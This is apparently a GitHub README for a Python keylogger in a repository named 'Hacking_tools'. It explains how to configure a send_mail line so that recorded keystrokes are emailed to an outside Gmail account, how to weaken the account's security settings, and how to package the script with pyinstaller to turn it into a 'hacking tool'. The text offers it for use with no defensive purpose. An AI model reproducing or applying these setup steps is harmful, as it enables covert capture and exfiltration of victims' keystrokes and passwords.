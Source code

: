 # Hacking_tools

# Keylogger

A keylogger, sometimes called a keystroke logger or system monitor, is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. Keylogger software is also available for use on smartphones, such as the Apple iPhone and Android devices but it is a simple keylogger program.

[+] Requirements: Python IDEs Ex: Pycharm, PyDev, IDLE, Spyder etc.. and Internet.

[+] Before executing keylogger.py make sure that you have provided a proper email id and password shown below line in the program.
self.send_mail("arnavkumar6360@gmail.com", "Your Password", self.log)
For Ex: self.send_mail("Your email id ", "abc123def456", self.log)
Also enable the Less secure app access of your google account to receive the mail send by the program.
    
[+] Link to enable Less secure app access https://myaccount.google.com/lesssecureapps

[+] Note: Its just a program, to convert this into a hacking tool we need to package this program by pyinstaller.exe. If u want to know more about this please contact through this mail arnavkumar6360@gmail.com
